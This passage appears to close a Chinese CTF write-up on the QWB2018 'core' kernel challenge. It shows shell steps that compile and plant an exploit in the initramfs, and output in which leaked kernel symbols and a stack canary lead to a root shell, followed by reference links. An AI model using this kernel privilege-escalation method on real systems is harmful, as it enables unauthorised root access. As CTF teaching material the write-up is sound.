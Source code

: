 ### get root shell

```bash
QWB2018_core [master●●] gcc exploit.c -static -masm=intel -g -o exploit // 如果使用 intel 汇编需要加上 -masm=intel 
QWB2018_core [master●●] cp exploit give_to_player/core/tmp
cp：是否覆盖'give_to_player/core/tmp/exploit'？ y
QWB2018_core [master●●] cd give_to_player/core
core [master●●] ./gen_cpio.sh core.cpio
.
./usr
./usr/sbin
......
......

core [master●●] mv core.cpio ..
mv：是否覆盖'../core.cpio'？ y
core [master●●] cd ..
give_to_player [master●●] ./start.sh

/ $ ls /tmp/
exploit   kallsyms
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffbd09c8e0
vmlinux_base addr: 0xffffffffbd000000
prepare_kernel_cred addr: 0xffffffffbd09cce0
[*]set off to 64
[*]read to buf.
[+]canary: 0x6be486f377bb8600
[*]copy from user with size: -65280
/ # id
uid=0(root) gid=0(root)
```
当然这个题目也有其他做法，下篇再分析。

## Reference and Thanks to

https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml

https://blog.csdn.net/gatieme/article/details/78311841

https://bbs.pediy.com/thread-247054.htm

https://veritas501.space/2018/06/05/qwb2018%20core/

http://p4nda.top/2018/07/13/ciscn2018-core/
